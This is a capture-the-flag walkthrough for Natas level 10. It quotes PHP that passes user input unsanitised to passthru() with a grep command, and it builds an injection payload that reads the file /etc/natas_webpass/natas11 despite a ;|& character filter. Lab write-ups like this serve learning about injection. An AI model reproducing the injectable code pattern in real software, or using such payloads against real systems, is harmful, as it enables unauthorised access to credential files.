 # Level 10
This level builds on previous level by intoducing some more constraints.

## Quest 
Now a webpage with msg "For security reasons, we now filter on certain characters" appears.

![Level 10 Image](./images/Level10.png)

From source code we can see some additional checks have been introduced, Lets comment the code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) { // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];             // If its there, assign it to var $key
}

if($key != "") {                            // If key is not empty
    if(preg_match('/[;|&]/',$key)) {        // If user input contains ;,|,&
        print "Input contains an illegal character!";  // Print the message
    } else {
        passthru("grep -i $key dictionary.txt");  // Else, run the command with user input
    }
}
?>
```

## Solution
From source code, we can see that application now doesn't accept characters `;`, `|` and `&`. Essentially all characters that can terminate the command.

Now to construct our payload, i did some tests in my local linux terminal.
```shell
# I have a simple text file 'test'
$ cat test
This is a random file
We love random things, not pseudo random ones.

# Another way to view the file using 'grep'
$ grep -i "" test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # There is no space after \
> test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # If we put a space after \  , command terminates
cat: ' ': No such file or directory
```
Takeaway:
  1. We can use `grep` to view content of a file
  2. `\` is used in multiline linux commands to split command to next line when command is too long
  3. But if we put a space after `\`, then it terminates the command

So, Our payload becomes `"" /etc/natas_webpass/natas11 \`
Note: We don't need to add extra space at the end as its added for us when `grep` command is run.

Now, we put our payload in the form and it revelas the password for next Level

![Level10 Solution](./images/Level10_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

